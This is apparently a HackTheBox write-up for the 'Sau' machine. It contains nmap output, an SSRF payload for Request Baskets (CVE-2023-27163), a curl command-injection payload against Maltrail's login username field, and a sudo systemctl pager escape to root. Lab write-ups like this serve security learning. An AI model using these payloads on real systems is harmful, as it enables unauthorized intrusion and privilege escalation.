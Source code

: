 ```yaml
---
title: "Sau"
date: 2023-07-10 17:02:00 +0800
categories: [Writeups, HackTheBox]
tags: [cve, sudo, misconfiguration]
image:
  path: /banners/sau.png
---
```




> Description : Sau is an Easy Difficulty Linux machine that features a `Request Baskets` instance that is vulnerable to Server-Side Request Forgery (SSRF) via [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Leveraging the vulnerability we are to gain access to a Maltrail instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as puma. A sudo misconfiguration is then exploited to gain a root shell.
{: .prompt-info }


# Enumeration

```bash
# Nmap 7.80 scan initiated Sun Jul  9 20:56:56 2023 as: nmap -sCV -oN Nmap -p- -vvv 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up, received echo-reply ttl 63 (0.31s latency).
Scanned at 2023-07-09 20:56:56 +01 for 585s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 09 Jul 2023 20:05:50 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 09 Jul 2023 20:05:51 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.80%I=7%D=7/9%Time=64AB131E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2009\x20Jul\x202
SF:023\x2020:05:50\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/we
SF:b\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2020
SF:0\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2009\x20Jul\x202
SF:023\x2020:05:51\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Ke
SF:rberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  9 21:06:41 2023 -- 1 IP address (1 host up) scanned in 584.89 seconds
```


[! POC](https://github.com/darklynx/request-baskets)

During my reconnaissance phase, I discovered a website that utilizes the Request Baskets service. 

This web service provides me with the flexibility to collect and examine HTTP requests through either a RESTful API or a user-friendly web interface

![image e](https://github.com/ACHUX21/Writeups/assets/130113878/560e444d-8bd9-4daa-82ee-7dd6e301d54f)

An intriguing detail we observed is that the service we stumbled upon is running an outdated version, whereas the most recent version available is 1.2.3. 
This divergence raises the possibility of potential vulnerabilities that we can exploit during our exploitation process.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/77afb146-755e-423f-a258-df1685262d36)

While conducting the vulnerability assessment for this particular system version, I discovered an SSRF (Server-Side Request Forgery) vulnerability.
This vulnerability exposes a significant risk as it allows for the unauthorized disclosure of confidential information, including port enumeration.

```json
{
  "forward_url": "http://127.0.0.1:80/test",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

Following the outlined steps in the documentation, I proceeded to create a new basket. 
However, I deviated from the default GET request method and modified it to a POST request, making the following adjustments.

By leveraging the SSRF vulnerability, I successfully created a targeted route that allowed me access. 
Within this route, I proceeded to exploit the SSRF vulnerability further, capitalizing on its weaknesses.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/206e245e-494a-4b22-be1b-e8c6a94c4074)


```
http://10.10.11.224:55555/web/achux21
```


![image](https://github.com/ACHUX21/Writeups/assets/130113878/0f5c895b-8629-4e65-aaab-5758f0eb10b7)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/f00be81b-f91e-4cda-9769-bcab86f16cb8)


While accessing the route generated by exploiting the SSRF vulnerability, we came across the Maltrail application.
Maltrail serves as a robust system for detecting and analyzing malicious network traffic. 
It relies on public lists containing suspicious and malicious traces, as well as static traces obtained from reports by various antivirus providers
However, it is essential to highlight that the version of Maltrail we encountered is outdated, potentially implying the presence of unaddressed vulnerabilities.

[Matrail V0.53](https://github.com/stamparm/maltrail)


During the analysis, I discovered an unauthenticated command execution vulnerability within the Maltrail application. 
This vulnerability resides in the subprocess.check_output function, specifically in the file mailtrail/core/httpd.py.
The root cause of this vulnerability is a command injection flaw present in the params.get("username") parameter.

[https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87](https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/3bde8930-a81e-4cd6-9122-698c80fcd9fc)

By exploiting this vuln we could have a remote code execution.

```bash
curl 'http://hostname:8338/login' --data 'username=;$(id &gt; /tmp/bbq)'
```

![image](https://github.com/ACHUX21/Writeups/assets/130113878/465aa762-6566-4472-bb11-f89508166417)

# Privilege Escalation

it's time to focus on privilege escalation.

```bash
script /dev/null -c bash
sudo  /usr/bin/systemctl status trail.service
!sh
```


```bash
script /dev/null -c bash
sudo  /usr/bin/systemctl status trail.service
!sh
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/9a551f35-dead-4e8e-9715-9c248c2d006a)


```bash
sudo -l
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/28b72b20-2633-492a-b25c-ab9a253db14a)

 BYE
